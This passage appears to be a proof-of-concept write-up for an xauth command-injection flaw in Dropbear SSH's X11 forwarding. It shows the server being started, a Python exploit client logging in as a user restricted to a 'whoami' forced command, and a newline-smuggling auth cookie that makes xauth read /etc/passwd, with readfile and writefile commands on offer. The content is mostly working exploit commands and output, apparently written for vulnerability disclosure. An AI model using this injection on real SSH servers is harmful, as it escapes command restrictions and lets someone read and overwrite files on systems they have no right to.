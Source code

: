 2. run dropbearsshd (x11fwd is on by default)

	```c
	#> ~/dropbear-2015.71/dropbear -R -F -E -p 2222
	[22861] Not backgrounding
	[22862] Child connection from 192.168.139.1:49597
	[22862] Forced command 'whoami'
	[22862] Pubkey auth succeeded for 'user1' with key md5 dc:b8:56:71:89:36:fb:dc:0e:a0:2b:17:b9:83:d2:dd from 192.168.139.1:49597
	```

3. `forced-commands` - connect with user1 and display env information

	```c
	#> python <host> 2222 user1 .demoprivkey

	INFO:__main__:add this line to your authorized_keys file:
	#PUBKEY line - force commands: only allow "whoami"
	#cat /home/user/.ssh/authorized_keys
	command="whoami" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1RpYKrvPkIzvAYfX/ZeU1UzLuCVWBgJUeN/wFRmj4XKl0Pr31I+7ToJnd7S9JTHkrGVDu+BToK0f2dCWLnegzLbblr9FQYSif9rHNW3BOkydUuqc8sRSf3M9oKPDCmD8GuGvn40dzdub+78seYqsSDoiPJaywTXp7G6EDcb9N55341o3MpHeNUuuZeiFz12nnuNgE8tknk1KiOx3bsuN1aer8+iTHC+RA6s4+SFOd77sZG2xTrydblr32MxJvhumCqxSwhjQgiwpzWd/NTGie9xeaH5EBIh98sLMDQ51DIntSs+FMvDx1U4rZ73OwliU5hQDobeufOr2w2ap7td15 user@box

	INFO:__main__:connecting to: user1:<PKEY>@192.168.139.129:2222
	INFO:__main__:connected!
	INFO:__main__:
	Available commands:
	    .info
	    .readfile <path>
	    .writefile <path> <data>
	    .exit .quit
	    <any xauth command or type help>

	#> .info
	DEBUG:__main__:auth_cookie: '\ninfo'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:Authority file:       /home/user1/.Xauthority
	File new:             no
	File locked:          no
	Number of entries:    2
	Changes honored:      yes
	Changes made:         no
	Current input:        (stdin):2
	user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line

	...
	```

4. `forced-commands` - read `/etc/passwd`

	```c
	...
	#> .readfile /etc/passwd
	DEBUG:__main__:auth_cookie: 'xxxx\nsource /etc/passwd\n'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	...
	```
